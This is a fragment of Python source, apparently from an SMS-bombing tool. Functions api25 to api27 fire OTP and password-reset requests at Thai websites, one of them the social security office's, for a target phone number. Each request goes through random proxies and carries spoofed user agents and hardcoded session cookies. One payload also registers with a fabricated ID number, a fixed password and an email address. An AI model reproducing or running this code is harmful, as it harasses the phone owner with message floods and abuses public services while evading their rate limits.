 def api25(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api26(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.tgfone.com/signin/verifylforgot",headers={"user-agent": generate_user_agent(),"content-type": "application/x-www-form-urlencoded","accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","cookie": "_gcl_au=1.1.491392800.1657955935;_gid=GA1.2.1244336456.1657955937;_fbp=fb.1.1657955937500.30844796;G_ENABLED_IDPS=google;PHPSESSID=d42c517cc5234d40c44310c39e2212d464e2b18a;_ga_1QLSWVZFZ2=GS1.1.1657955937.1.1.1657956238.0;_ga=GA1.2.160165897.1657955937;_gat_gtag_UA_163796127_1=1"},data=f"forgot_name={phone}",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api27(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	SEND  = ru.Session()
	API_WEB = SEND.get('https://app.khonde.com/register',headers={"User-Agent": generate_user_agent()}).text
	SEND_TOKEN = bs(API_WEB,'html.parser')
	TOKEN = SEND_TOKEN.find("meta",attrs={"name":"csrf-token"})
	r = SEND.get(f'https://app.khonde.com/requestOTP/{phone}',headers={"X-XSRF-TOKEN": TOKEN['content'],"User-Agent": generate_user_agent(),"Cookie": "_gid=GA1.2.1429375693.1657960248; _gac_UA-74972330-26=1.1657960248.CjwKCAjww8mWBhABEiwAl6-2RVYe9XsjIIksM_BccLyzFFDX8T_YVTKKPOe2Q0BPyoTwjuzYwh6EyBoCN7wQAvD_BwE; _gat_gtag_UA_74972330_26=1; _fbp=fb.1.1657960248320.1708448457; _tt_enable_cookie=1; _ttp=da5ea560-0a16-4bc0-90d1-3ddd1fc73db4; XSRF-TOKEN=eyJpdiI6IisyMWw5ZnhaS2JXV3FmR3dyV0JGdVE9PSIsInZhbHVlIjoiQnNLQjh6dExTdmh5ZnJZeHNjNkkzd3dMMHpXV1dZV2hROXYyV0NMSnZpOWdQeFdqRU9RQ3Y4M2Y1aXk5Y1QvcFM1V2N0MG9oRUkxQUU3TlFESDlVU21Qa2JMMmxqRHBISFRsOXZGaFVMVGY0ZW1idysrWUVlNTFQWDYvQ1NSWFgiLCJtYWMiOiI1ODRiNTRmOGJkMzRjMzE1YmUxMmQ2Y2NkZWRhOGQ5ZDkwM2MxYWNjMmVmOTk2MzE4MmYzYmQ3ZWFiYWQ1ZjBlIn0%3D; khonde_session=eyJpdiI6IlMyNmpkRWl4NTh1emFLRWNiL0k2ZlE9PSIsInZhbHVlIjoiSEUzNGNnMVFwNGxJNTZVNmVzMWtrQk82NDZ0eGM1ckxrK3VVS1BWZ1NOMDlmbWl5RXdpa2dDMzQrdzIvMkRZeFpwa2dGamdGcFYwcVZWVjhFSjg2elZ1OUFxTWhuV3hIZlV2cFVIVW9VMnBCUEIxVUV6MVp1Y3JPb3JBOXFZeCsiLCJtYWMiOiJiYzM2ZDVhOWFiOTY3NTAyN2RhYTI1NWYwYjZhY2RmYTgxNWRmOGJkOWJhYjcyMGVhYzU0MjE4NGYxYjdlMTU4In0%3D; _ga_X6J1S6LV1V=GS1.1.1657960251.1.0.1657960251.60; _ga=GA1.1.1429094721.1657960248"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	